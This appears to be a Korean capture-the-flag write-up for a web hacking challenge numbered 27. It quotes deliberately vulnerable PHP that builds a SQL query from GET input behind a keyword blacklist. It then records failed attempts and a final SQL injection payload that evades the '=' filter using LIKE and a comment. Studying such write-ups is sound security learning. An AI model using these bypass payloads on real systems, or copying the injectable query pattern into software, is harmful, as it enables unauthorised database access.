 # 27

### First impression
```php
if($_GET[no])
{

if(eregi("#|union|from|challenge|select|\(|\t|/|limit|=|0x",$_GET[no])) exit("no hack");

$q=@mysql_fetch_array(mysql_query("select id from challenge27_table where id='guest' and no=($_GET[no])")) or die("query error");

if($q[id]=="guest") echo("guest");
if($q[id]=="admin") @solve();

}
```

### Trial and error
* `select id from challenge27_table where id='guest' and no=($_GET[no])`
* `TRUE and FALSE or TRUE = TRUE`
	- `and` 연산자가 `or` 연산자보다 우선순위가 더 높은 것을 이용하여 `TRUE` 유도.
* [RegExr](https://regexr.com/)에서 정규표현식 검사 후 `?no=` 파라미터로 넘김.
	- `2)+or+id='admin'--` 통과 못함. `=` 걸림.
	- `2)+or+id+like+'admin'--` 통과함. `query error`.
	- `2)+or+id+like+'admin%'--` 통과함. `query error`.
	- `1)--` 통과함. `query error`.
	- 앞에 `%00` 먼저 써도 `eregi()` 우회 불가능.
	- `2)+or+id+<>+'admin' --` 통과함. `query error`.
* `id` 대신 `no`로 해보는게 어떨까? `no`가 테이블의 기본키일 가능성이 높고, 기본키는 `1`부터 `1`씩 차례대로 증가하니까 아마 `admin`은 `2`일 가능성이 높다.
	- `2) or no like 2 --` 통과함. `query error`.
* 결국 검색했다... 겨우 띄어쓰기 하나 때문에 통과를 못했던 것이다.

### Solution
* `0) or no like 2 -- `. 반드시 `--` 뒤의 띄어쓰기를 해주어야 주석처리가 된다.